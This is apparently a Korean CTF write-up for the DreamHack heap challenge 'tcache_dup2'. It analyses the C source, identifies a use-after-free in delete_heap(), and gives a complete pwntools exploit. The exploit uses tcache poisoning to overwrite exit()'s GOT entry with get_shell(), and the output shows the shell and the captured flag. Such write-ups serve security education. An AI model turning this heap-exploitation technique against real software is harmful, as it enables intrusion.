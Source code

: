 # [DreamHack] tcache_dup2

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(tcache_dup2)의 바이너리와 소스 코드가 주어집니다.
> 취약점을 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [tcache_dup2.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549367/tcache_dup2.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160310290-1880f246-2c14-4c55-88a8-60d518e42163.png)

## Analysis

### create_heap()

```c
	if( idx >= 7 ) 
		exit(0);
```

`create_heap()`에 인자로 전달되는 `idx`는 `ptr`에 할당된 청크의 개수를 의미한다. 이 값은 청크가 free되어도 줄어들지 않기 때문에, 최대 7번까지만 청크를 할당할 수 있다.

```c
	printf("Size: ");
	scanf("%ld", &size);

	ptr[idx] = malloc(size);

	if(!ptr[idx])
		exit(0);
```

사이즈를 입력받고 그 사이즈만큼 `malloc()`으로 청크를 할당해서 `ptr[idx]`에 저장한다. 정상적으로 할당되지 않으면 프로세스를 종료한다.

```c
	printf("Data: ");
	read(0, ptr[idx], size-1);
```

청크에 데이터를 입력받는다.

### modify_heap()

```c
	printf("idx: ");
	scanf("%ld", &idx);

	if( idx >= 7 ) 
		exit(0);
```

수정할 청크의 index를 입력받는다. 7 이상을 입력하면 프로세스를 종료한다.

```c
	printf("Size: ");
	scanf("%ld", &size);

	if( size > 0x10 ) 
		exit(0);
```

수정할 데이터의 크기를 입력받는데, `0x10`보다 크면 프로세스를 종료한다. 즉 청크 데이터의 앞쪽 `0x10`바이트만 수정할 수 있다.

```c
	printf("Data: ");
	read(0, ptr[idx], size);
```

`size`만큼 청크의 데이터를 수정한다.

### delete_heap()

```c
	printf("idx: ");
	scanf("%ld", &idx);
	if( idx >= 7 ) 
		exit(0);

	if( !ptr[idx] ) 
		exit(0);
```

해제할 청크의 index를 입력받는다. 7 이상의 index를 입력하거나, `ptr[idx]`에 청크가 없으면 프로세스를 종료한다.

```c
	free(ptr[idx]);
```

`ptr[idx]`에 저장된 청크를 해제한다. 이때 `ptr`에 있는 청크의 주소를 초기화하지 않아서 UAF가 발생한다.

## Exploit

Partial RELRO 환경이므로 GOT overwrite가 가능하다. UAF를 이용하여 GOT에 fake chunk를 할당받고, GOT를 `get_shell()`의 주소로 덮으면 그 함수가 호출될 때 셸을 획득할 수 있다.

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/tcache_dup2')
else:
    r = remote('host1.dreamhack.games', 10905)

sla = r.sendlineafter
sa = r.sendafter


def Create(size, data):
    sla('> ', '1')
    sla('Size: ', str(size))
    sla('Data: ', data)


def Modify(idx, size, data):
    sla('> ', '2')
    sla('idx: ', str(idx))
    sla('Size: ', str(size))
    sla('Data: ', data)


def Delete(idx):
    sla('> ', '3')
    sla('idx: ', str(idx))


exit_got = 0x404060  # GOT of exit()
get_shell = 0x401530  # get_shell()


Create(0x18, 'a')  # idx: 0
Create(0x18, 'a')  # idx: 1
Delete(0)
Delete(1)

Modify(1, 8, p64(exit_got))
Create(0x18, 'a')  # idx: 2
Create(0x18, p64(get_shell))  # overwrite GOT of exit() with get_shell()

sla('> ', '3')
sla('idx: ', '7')  # call exit()


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 10905: Done
[*] Switching to interactive mode
$ cat flag
DH{308cdf00db6cd93fddf9f27801bba7c9}
```